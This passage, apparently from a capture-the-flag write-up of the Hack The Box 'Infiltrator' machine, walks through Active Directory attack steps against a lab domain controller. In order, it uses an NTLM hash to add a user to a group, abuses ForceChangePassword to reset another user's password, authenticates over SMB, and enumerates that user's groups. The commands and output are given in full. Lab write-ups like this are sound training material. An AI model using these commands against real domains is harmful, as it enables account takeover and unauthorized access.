 With the `e.rodriguez` user's NTLM hash, we can now abuse the `AddSelf` privilege over the `CHIEFS MARKETING` group, which allows us to add ourselves to the group using the `bloodyAD` tool.

```bash
bloodyAD -u e.rodriguez -p 'aad3b435b51404eeaad3b435b51404ee:<REDACTED>' --host dc01.infiltrator.htb -d infiltrator.htb add groupMember "CHIEFS MARKETING" 'e.rodriguez'
[+] e.rodriguez added to CHIEFS MARKETING
```

The group `CHIEFS MARKETING` has `ForceChangePassword` over the user `m.harris`, allowing us to change the password of the user and then authenticate as that user. For that, we can use the `net` tool.

```bash
net rpc password "m.harris" "Str0ngP4ssword" -U "INFILTRATOR.HTB"/"e.rodriguez" -S "10.10.11.31" --pw-nt-hash --password=<REDACTED>
```
> Command Breakdown:
- `net rpc password`: This command is used to change the password of a user in a Windows domain.
- `"m.harris"`: This is the username of the user we want to change the password for.
- `"Str0ngP4ssword"`: This is the new password we want to set for the user.
- `-U "INFILTRATOR.HTB"/"e.rodriguez"`: This specifies the user we are authenticating as, in this case, `e.rodriguez` from the `INFILTRATOR.HTB` domain.
- `-S 10.10.11.31` "This specifies the target server we are connecting to, in this case, the IP address of the domain controller.
- `--pw-nt-hash`: This flag indicates that we are using the NT hash of the password instead of the plaintext password.
- `--password=<REDACTED>`: This specifies the NT hash of the password we are using to authenticate.
{: .prompt-info}

Now that we have changed the password of the user `m.harris`, we can authenticate to the SMB service using the new password.

```bash
nxc smb dc01.infiltrator.htb -u m.harris -p 'Str0ngP4ssword' -k

SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:Str0ngP4ssword
```

Looking at `m.harris` groups, we can see that the user is a member of the `Remote Management Users` group, which allows us to authenticate to the WinRM service using the `evil-winrm` tool.

```bash
nxc ldap dc01.infiltrator.htb -u l.clark -p '<REDACTED>' -M groupmembership -o USER=m.harris

LDAP        10.10.11.31     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:infiltrator.htb)
LDAP        10.10.11.31     389    DC01             [+] infiltrator.htb\l.clark:<REDACTED>
GROUPMEM... 10.10.11.31     389    DC01             [+] User: m.harris is member of following groups:
GROUPMEM... 10.10.11.31     389    DC01             Developers
GROUPMEM... 10.10.11.31     389    DC01             Protected Users
GROUPMEM... 10.10.11.31     389    DC01             Remote Management Users
GROUPMEM... 10.10.11.31     389    DC01             Domain Users
```
